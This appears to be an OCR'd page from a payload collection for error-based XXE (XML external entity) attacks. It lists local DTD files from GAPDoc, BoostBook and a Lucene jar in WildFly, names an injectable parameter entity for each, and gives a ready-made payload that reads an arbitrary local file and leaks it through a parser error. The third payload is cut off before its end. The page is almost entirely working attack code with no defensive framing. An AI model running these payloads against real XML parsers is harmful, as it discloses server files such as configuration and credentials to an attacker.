  --- 

**DTD File:** `/usr/lib/gap/pkg/GAPDoc-1.6.2/bibxmlext.dtd`

**Injectable entity:** `%n.InProceedings`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/lib/gap/pkg/GAPDoc-1.6.2/bibxmlext.dtd">

    <!ENTITY % n.InProceedings 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/boostbook/dtd/boostbook.dtd`

**Injectable entity:** `%boost.common.attrib`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/boostbook/dtd/boostbook.dtd">

    <!ENTITY % boost.common.attrib '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 


**DTD File:** `/opt/jboss/wildfly/modules/system/layers/base/org/apache/lucene/main/lucene-queryparser-5.5.5.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd`

**Injectable entity:** `%queries`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///opt/jboss/wildfly/modules/system/layers/base/org/apache/lucene/main/lucene-queryparser-5.5.5.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">

    <!ENTITY % queries 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>
```